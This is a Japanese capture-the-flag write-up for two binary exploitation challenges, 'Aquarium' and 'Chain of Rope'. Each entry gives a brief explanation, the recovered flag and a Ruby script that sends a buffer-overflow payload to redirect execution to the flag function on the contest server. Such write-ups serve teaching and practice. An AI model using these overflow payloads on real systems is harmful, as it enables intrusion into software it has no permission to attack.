 
## Binary

### Aquarium
- gets関数によるBOFがあるバイナリで、flag出力用の関数があるのでそこに飛ばすだけ
- **actf{overflowed_more_than_just_a_fish_tank}**

```ruby
#!/usr/bin/env ruby

require 'pwn'

#z = Sock.new "localhost", 9999
z = Sock.new "shell.actf.co", 19305

payload = "A" * 0x98 + p32(0x4011b6)
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline payload

puts z.recv
```

### Chain of Rope

- 名前からしてROPかと思ったけど、そうではなく単純なBOFでリターンアドレスをflag出力用関数に書き換えるだけ(Aquariumとまったく同じ)
- **actf{dark_web_bargains}**

```ruby
#!/usr/bin/env ruby

require 'pwn'

z = Sock.new "localhost", 9999
z = Sock.new "shell.actf.co", 19400

puts z.recvuntil("access\n")
z.sendline "1"

payload = "A" * 0x38 + p64(0x401231)
z.sendline payload

p z.recv
```
